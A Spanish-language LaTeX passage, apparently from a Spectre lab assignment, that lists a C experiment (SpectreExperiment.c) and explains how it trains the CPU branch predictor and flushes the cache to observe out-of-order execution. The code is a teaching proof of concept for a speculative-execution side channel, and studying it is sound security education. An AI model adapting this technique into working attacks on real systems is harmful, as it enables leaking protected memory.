 \subsection{El Experimento}

En esta tarea, usaremos un experimento para observar los efectos causados por la ejecución fuera de orden. El código usado en este experimento es mostrado a continuacióon.
Algunas de las funciones usada en el código son las mimsas que se usaron en tareas anteriores, por lo que no serán repetidos.

\begin{lstlisting}[caption=\texttt{SpectreExperiment.c}, label=spectre:list:outoforder]
#define CACHE_HIT_THRESHOLD (80)
#define DELTA 1024

int size = 10;
uint8_t array[256*4096];
uint8_t temp = 0;

void victim(size_t x) 
{
  if (x < size) {                          (*@\ding{192}@*)
     temp = array[x * 4096 + DELTA];       (*@\ding{193}@*)
  }
}

int main() 
{
  int i;

  // FLUSH the probing array
  flushSideChannel();

  // Train the CPU to take the true branch inside victim()
  for (i = 0; i < 10; i++) {               (*@\ding{194}@*)
      victim(i);                           (*@\ding{195}@*)
  }

  // Exploit the out-of-order execution 
  _mm_clflush(&size);                      (*@\ding{80}@*)
  for (i = 0; i < 256; i++)  
      _mm_clflush(&array[i*4096 + DELTA]);
  victim(97);                              (*@\ding{196}@*)

  // RELOAD the probing array
  reloadSideChannel();
  return (0);
}
\end{lstlisting}

Para que las CPUs puedan realizar la ejecución especulativa, deberían de poder predecir el resultado de la condición IF. Las CPUs guardan un registro de los branches que fueron tomados en el pasado y luego usa estoss resultados para predecir que branch debería de ser tomado en una ejecución especulativa.
Además, si quisieramos que la CPU tome un branch en particular dentro de la ejecución especulativa, deberíamos de entrenar al CPU, por lo que nuestro branch elegido se puede convertir en el resultado de esa predicción. Este entrenamiento es hecho dentro del bloque \texttt{for} que comienza en la Línea . 
Dentro de este for-loop, invocamos a la función \texttt{victim()} con un argumento cuyo valor es pequeño (este va de 0 a 9).
Estos valores son menos que el valor de  \texttt{size}, por el branch con el valor true para esta condición en la Línea  es siempre el que se elige. Esta es la fase de entrenamiento, que esencialmente entrena a la CPU que espera la 
condición IF sea verdadera.

